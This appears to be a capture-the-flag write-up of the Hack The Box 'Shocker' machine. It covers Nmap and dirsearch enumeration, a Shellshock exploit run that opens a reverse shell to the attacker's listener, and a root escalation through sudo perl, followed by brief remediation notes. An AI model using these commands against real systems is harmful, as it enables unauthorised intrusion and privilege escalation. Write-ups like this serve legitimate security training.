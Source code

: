 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Shocker
- Description: Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
- Difficulty: Easy
## Initial Access

Nmap
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From this info I can try to visit the page:

![[assets/images/Pasted image 20240119092618.png]]

Nothing too crazy stands out, I can try to check for dirsearch while I enumerate this apache version:
```bash
HTB dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e sh -f -u  http://10.10.10.56/cgi-bin/ 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: sh | HTTP method: GET | Threads: 64 | Wordlist size: 661635

Output File: /home/kali/.dirsearch/reports/10.10.10.56/-cgi-bin-_24-01-19_09-25-34.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-19_09-25-34.log

Target: http://10.10.10.56/cgi-bin/

[09:25:35] Starting: 
[09:25:35] 200 -  118B  - /cgi-bin/user.sh
```

I can see that we have /cgi-bin/user.sh, this is screaming shellshock so I'll try to exploit it:

```bash
HTB python2 34900.py payload=reverse rhost=10.10.10.56 rport=80 lhost=10.10.14.14 lport=443 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly

10.10.10.56>
```

We got a shell!
## Privilege Escalation

Checking sudo permissions:
```bash
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

```bash
shelly@Shocker:/usr/lib/cgi-bin$  sudo perl -e 'exec "/bin/sh";' 
# whoami
root
```

Very simple root!
## Beyond Root

Now since I can't update the machine, what I'll do is get rid of the vulnerable script user.sh

As far as root goes, I'll get rid of the sudo perl usage